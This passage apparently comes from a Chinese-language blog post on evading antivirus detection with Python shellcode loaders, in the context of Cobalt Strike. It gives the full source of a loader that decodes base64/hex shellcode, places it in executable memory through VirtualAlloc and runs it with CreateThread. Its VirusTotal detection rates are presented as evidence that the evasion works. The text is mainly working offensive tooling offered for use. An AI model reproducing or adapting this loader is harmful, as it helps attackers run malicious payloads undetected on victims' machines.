 编译 exe 后执行，可正常上线，不过 virustotal.com 上查杀率 17/69。

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbDzLEyFbIMTc4dibuxYaTo5AnIoTiaicTL6POB4CWfrRCGPLpZTuszSqDA/640?wx_fmt=png)

3.2 方法 2：base64 加密 (VT 免杀率 3/56)
--------------------------------

和上面的 3.1 一样，也是 k8 的大作，使用了 base64+hex 的方式处理 shellcode。

文件`ScRunBase64.py`代码如下

```
#scrun by k8gege
import ctypes
import sys
import base64
shellcode=bytearray(base64.b64decode(sys.argv[1]).decode("hex"))
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                          ctypes.c_int(len(shellcode)),
                                          ctypes.c_int(0x3000),
                                          ctypes.c_int(0x40))

buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
                                     buf,
                                     ctypes.c_int(len(shellcode)))

ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.c_int(ptr),
                                         ctypes.c_int(0),
                                         ctypes.c_int(0),
                                         ctypes.pointer(ctypes.c_int(0)))

ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),ctypes.c_int(-1))
```

virustotal.com 上`ScRunBase64.py`查杀率 4/58

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIb5fo5DBXkkWj2vJHEMGfGaHJzMlF29bFInRQBYjGSictGDJkqKHocKsA/640?wx_fmt=png)  

4 参考资料
======

CS 强化_python 免杀：`[https://mp.weixin.qq.com/s/9U7TJiLTIVQNvEakJ-yIAA](https://mp.weixin.qq.com/s/9U7TJiLTIVQNvEakJ-yIAA)`

shellcode 加载总结:`[https://uknowsec.cn/posts/notes/shellcode%E5%8A%A0%E8%BD%BD%E6%80%BB%E7%BB%93.html](https://uknowsec.cn/posts/notes/shellcode%E5%8A%A0%E8%BD%BD%E6%80%BB%E7%BB%93.html)`

E

  

N
